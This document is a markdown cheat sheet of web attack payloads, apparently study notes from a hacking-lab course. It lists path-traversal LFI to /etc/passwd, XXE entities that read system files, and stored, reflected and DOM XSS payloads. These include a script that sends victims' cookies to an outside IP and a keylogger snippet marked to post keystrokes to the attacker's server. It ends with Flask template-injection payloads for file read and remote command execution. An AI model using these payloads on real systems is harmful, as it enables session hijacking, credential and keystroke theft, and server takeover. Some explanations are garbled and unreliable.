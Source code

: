 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 ```
 <script>alert("Hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 #### DOM-Based XSS
 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
#### Keylogger

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

<img SRC="test" onmouseover=alert('Hello') />
<img SRC="test" onmouseover=confirm('Hello') />
<img SRC="test" onmouseover=alert('HHelloello') />
<img SRC="test" ONMOUSEOVER=alert('HHelloello') />

### SSTI (server side template injection)

flask for instance
```
check
{{2+2}}
LFI
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}
RCE
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
```
